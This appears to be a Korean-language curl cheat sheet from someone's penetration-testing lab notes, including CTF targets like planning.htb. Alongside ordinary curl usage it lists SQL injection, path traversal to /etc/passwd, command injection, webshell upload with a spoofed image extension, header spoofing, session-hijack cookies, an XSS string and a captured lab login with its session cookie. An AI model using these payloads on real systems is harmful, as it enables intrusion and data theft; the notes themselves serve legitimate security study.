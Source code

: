 # curl - HTTP 요청 도구

## 기본 요청

```bash
curl http://target.com                # 기본 GET 요청 (출력: 터미널)
curl -o file.html http://target.com   # 파일로 저장
curl -s http://target.com             # 진행 바 숨김
curl -L http://target.com             # 리다이렉트 따라가기
```

## 디버깅/분석

```bash
curl -v http://target.com             # 모든 요청/응답 상세 표시 (필수)
curl -I http://target.com             # 헤더만 요청 (HEAD 메소드)
curl -i http://target.com             # 응답 본문과 헤더 함께 표시
```

## 인증

```bash
curl -u user:pass http://target.com   # 기본 인증
curl -H "Authorization: Bearer eyJh..." http://target.com  # JWT/토큰

# 쿠키 관련
curl -c cookies.txt http://target.com        # 쿠키 저장
curl -b cookies.txt http://target.com        # 저장된 쿠키 사용
curl -b cookies.txt -c cookies.txt http://target.com  # 세션 유지
```

## 데이터 전송

```bash
# POST 요청 (폼)
curl -X POST -d "user=admin&pass=secret" http://target.com/login.php

# 파일 업로드
curl -F "file=@shell.php" -F "description=profile" http://target.com/upload.php

# JSON 전송
curl -X POST -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"s3cr3t"}' \
    http://target.com/api/login
```

## 헤더 조작

```bash
# 사용자 에이전트 변경
curl -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" http://target.com

# IP 스푸핑 시도
curl -H "X-Forwarded-For: 127.0.0.1" http://target.com
curl -H "X-Real-IP: 127.0.0.1" http://target.com
```

## 보안/프록시

```bash
curl -k https://target.com                       # SSL 인증서 검증 무시
curl -x http://127.0.0.1:8080 http://target.com  # HTTP 프록시 (Burp)
curl --socks5 127.0.0.1:9050 http://target.com   # SOCKS5 프록시 (Tor)
```

## 취약점 테스트

```bash
# SQL 인젝션
curl "http://target.com/search.php?id=1 OR 1=1--"

# LFI
curl "http://target.com/page.php?file=../../../etc/passwd"

# 명령어 인젝션
curl "http://target.com/ping.php?host=127.0.0.1;id"
```

# 파일 업로드 취약점 (확장자 우회)

curl -X POST -F "file=@webshell.php;filename=image.jpg;type=image/jpeg" http://target.com/upload
curl -F "file=@/경로/파일명" http://타겟IP/upload.php
`@`는 curl에서 파일 업로드할 때 로컬 파일임을 나타내는 표시입니다. `-F` 옵션과 함께 사용합니다.

````

### 인증 우회 및 세션 작업

```bash
# CSRF 토큰 추출 후 사용
TOKEN=$(curl -s -c cookies.txt http://target.com/form | grep -o 'csrf_token" value="[^"]*' | cut -d'"' -f3)
curl -b cookies.txt -d "csrf_token=$TOKEN&username=admin&password=password" http://target.com/login

# 쿠키 조작으로 세션 하이재킹
curl -b "sessionid=STOLEN_SESSION_VALUE" http://target.com/admin

# HTTP 기본 인증 테스트
curl -u admin:password http://target.com/admin
````

### 유용한 도구 조합

```bash
# URL 인코딩 (Python 활용)
curl "http://target.com/search?q=$(python3 -c "import urllib.parse; print(urllib.parse.quote('<script>alert(1)</script>'))")"

# Base64 인코딩 헤더 사용 (Basic Auth)
curl -H "Authorization: Basic $(echo -n 'admin:password' | base64)" http://target.com

# 404 오류 페이지 숨기기
curl -f http://target.com/admin || echo "페이지 없음"

# 응답에서 특정 정보 필터링
curl -s http://target.com | grep "flag"
```

### 실전 로그인 및 세션 유지 예시

```bash
# 로그인하여 세션 쿠키 저장
curl -c cookies.txt -X POST http://lookup.thm/login.php -d 'username=admin&password=password123' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'

# 저장된 쿠키로 인증된 페이지 접근
curl -b cookies.txt http://lookup.thm/dashboard.php
```

# 로그인 쿠키 저장

curl -c cookies.txt -X POST http://grafana.planning.htb/login -H "Content-Type: application/json" -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

┌──(root㉿docker-desktop)-[/]
└─# curl -c cookies.txt -X POST http://grafana.planning.htb/login \
 -H "Content-Type: application/json" \
 -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

# Cookie File -> Netscape format 분석

grafana.planning.htb FALSE / FALSE 1755096838 grafana_session_expiry 1752505433
#HttpOnly_grafana.planning.htb FALSE / FALSE 1755096838 grafana_session 508ccc52bfc97942574a1cb84a726eb1

| 항목      | 설명                                                           |
| --------- | -------------------------------------------------------------- |
| 도메인    | `grafana.planning.htb` – 쿠키가 유효한 호스트                  |
| `FALSE`   | 이 쿠키가 서브도메인에 적용되는지 여부 (FALSE = 해당 도메인만) |
| 경로      | `/` – 쿠키가 유효한 경로                                       |
| Secure    | `FALSE` – HTTPS에서만 전송되는지 여부                          |
| 만료 시간 | `1755096838` (Unix timestamp) – 쿠키 만료 시각                 |
| 이름      | `grafana_session_expiry` 또는 `grafana_session`                |
| 값        | 예: `508ccc52bfc97942574a1cb84a726eb1`                         |

